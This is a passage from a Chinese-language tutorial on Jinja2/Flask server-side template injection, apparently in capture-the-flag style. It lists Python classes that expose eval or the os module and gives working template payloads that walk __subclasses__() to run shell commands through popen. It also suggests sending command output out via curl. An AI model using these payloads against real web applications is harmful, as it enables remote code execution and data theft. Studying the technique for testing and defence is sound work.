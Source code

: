         <class 'inspect.BoundArguments'>
        <class 'inspect.Signature'>
        <class 'rlcompleter.Completer'>]
        ```



#### 常用的子类



执行命令的子类

- 可以用来执行命令的类有很多，其基本原理就是**遍历含有eval函数即os模块的子类**，利用这些子类中的eval函数即os模块执行命令。



几个含有eval函数的类

```
warnings.catch_warnings
WarningMessage
codecs.IncrementalEncoder
codecs.IncrementalDecoder
codecs.StreamReaderWriter
os._wrap_close
reprlib.Repr
weakref.finalize
etc.
```



```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}+
```

#### 其他执行命令的函数

**os 模块执行命令**

Python的 os 模块中有system和popen这两个函数可用来执行命令。

`system()`函数执行命令是没有回显的，我们可以使用system()函数配合curl外带数据；

`popen()`函数执行命令有回显。

首先编写脚本遍历目标Python环境中含有**os**模块的类的索引号，比如`<class 'os._wrap_close'>`

随便挑一个类构造payload执行命令即可：

```python
{{''.__class__.__base__.__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}} 
```

但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。

我们可以看到，即使是使用os模块执行命令，其也是调用的os模块中的popen函数，那我们也可以直接调用popen函数，存在popen函数的类一般是 `os._wrap_close`

 **popen 函数执行命令**

先找索引
